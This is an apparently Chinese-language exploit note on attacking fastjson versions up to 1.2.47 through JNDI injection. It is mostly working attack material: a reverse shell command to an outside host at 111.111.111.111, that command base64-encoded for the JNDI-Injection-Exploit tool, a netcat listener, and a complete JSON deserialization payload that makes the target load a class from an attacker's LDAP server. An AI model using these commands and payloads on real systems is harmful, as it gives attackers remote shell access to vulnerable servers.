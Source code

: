 影响版本：fastjson <= 1.2.47

**JNDI注入**

相关工具：https://github.com/welk1n/JNDI-Injection-Exploit

反弹shell需要先编码成base64

在线java编码网站：[java.lang.Runtime.exec() Payload Workarounds](https://www.jackson-t.ca/runtime-exec-payloads.html)

如：`sh -i >& /dev/tcp/111.111.111.111/8888 0>&1`需要先拖进去编码

首先要启动一个 RMI 或者 LDAP 服务：在VPS上执行

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "<payload>" -A <vps>
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjExNy41MS4yNTMvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A 111.111.111.111
```

![image](img/fastjson2.png)

监听8888端口:

```
nc -lvnp 8888
```

目标站点抓包发送如下payload，header需要添加POST的`Content-Type: application/json`

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://111.111.111.111:1389/yomh4h",
        "autoCommit":true
    }
}
```

![image](img/fastjson1.png)
